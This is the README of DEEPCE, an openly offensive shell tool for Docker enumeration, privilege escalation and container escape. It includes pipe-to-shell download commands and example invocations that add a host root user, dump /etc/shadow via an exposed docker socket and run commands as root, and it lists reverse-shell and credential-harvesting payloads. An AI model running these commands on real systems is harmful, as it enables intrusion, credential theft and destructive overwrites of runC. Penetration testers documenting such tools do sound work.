 # deepce

```
                      ##         .
                ## ## ##        ==
             ## ## ## ##       ===
         /"""""""""""""""""\___/ ===
    ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~
         \______ X           __/
           \    \         __/
            \____\_______/
          __                        
     ____/ /__  ___  ____  ________ 
    / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE
   / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
   \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                 /_/
```

![ShellCheck](https://github.com/stealthcopter/deepce/workflows/ShellCheck/badge.svg)
![ContainerTests](https://github.com/stealthcopter/deepce/workflows/ContainerTests/badge.svg)

[Website](https://stealthcopter.github.io/deepce/)

Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)

In order for it to be compatible with the maximum number of containers DEEPCE is written in pure `sh` with no dependencies. It will make use of additional tools such as curl, nmap, nslookup and dig if available but for the most part is not reliant upon them for enumeration.

None of the enumeration should touch the disk, however most of the exploits create new containers which will cause disk writes, and some exploits will overwrite runC which can be destructive, so be careful!

Please see below for a list of the enumerations, exploits and payloads DEEPCE can use. If you have ideas for anymore please submit an issue in github!

# Downloading

DEEPCE can be downloaded onto a host or container using one of the following one-liners. Tip: download to `/dev/shm` to avoid touching the disk when downloading.

```bash
wget https://github.com/stealthcopter/deepce/raw/master/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/master/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/master/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/master/deepce.sh").content.decode("utf-8"))' > deepce.sh  
```

# Screenshots
For more please view the [docs folder](https://github.com/stealthcopter/deepce/tree/master/docs)
![screenshot1](docs/images/ubuntu-install-tools.png "Screenshot 1")

## Enumerations

The following is the list of enumerations performed by DEEPCE. 

- Container ID & name (via reverse dns)
- Container IP / DNS Server
- Docker Version
- Interesting mounts
- Passwords in common files
- Environment variables
- Password hashes
- Common sensitive files stored in containers
- Other containers on same network
- Port scan other containers, and the host machine itself
- Find exposed docker sock

## Exploits

- Docker Group Privilege Escalation
- Privileged mode host command execution
- Exposed Docker Sock

## Payloads

For each of the exploits above payloads can be defined in order to exploit the host system. These include:

- Reverse TCP shell
- Print /etc/shadow
- Add new root user
- Run custom commands
- Run custom payload binaries

# Examples
```bash
# Make the script executable and then run it
chmod +x ./deepce.sh
./deepce.sh 
```

## Exploits
The following examples show the different kinds of exploits that can be performed and the avaliable payloads.

- Exploit a privileged container to create a new root user on the host operating system:
```bash
./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce
```

- Exploit a writable docker sock file in order to print the contents of `/etc/shadow`
```bash
./deepce.sh --no-enumeration --exploit SOCK --shadow
```

- Escalate to root via membership to the docker group on a host and run a custom payload
```bash
./deepce.sh --no-enumeration --exploit DOCKER --command "whoami>/tmp/hacked"
```

# Advanced Usage

It is possible to download and run deepce without touching the disk, however you will be unable to easily set arguments (direct manipulation of variables is possible using export).

```bash
wget -O - https://github.com/stealthcopter/deepce/raw/master/deepce.sh | sh
curl -sL https://github.com/stealthcopter/deepce/raw/master/deepce.sh | sh
```

# Inspiration

There are some great container enumeration/escape scripts and enumeration tools that I've got inspiration from when writing this. However I felt the need to write one purely in `sh` in order to avoid having to install go / ruby dependencies or be reliant on a static binary. I also wanted to be able to perform more enumerations to try to discover what the docker container is as during as test we may end up inside an unknown container. The number of things this script can enumerate got away from me as every time I added something new I thought of more additional things I could add.

- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [BotB](https://github.com/brompwnie/botb)
- [Harpoon](https://github.com/ProfessionallyEvil/harpoon)

# Resources

Developers looking for Docker security tips
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Docker_Security_Cheat_Sheet.md


# Contributing

I welcome pull requests, issues and feedback.

- Fork it
- Create your feature branch (git checkout -b my-new-feature)
- Commit your changes (git commit -am 'Added some feature')
- Push to the branch (git push origin my-new-feature)
- Create new Pull Request


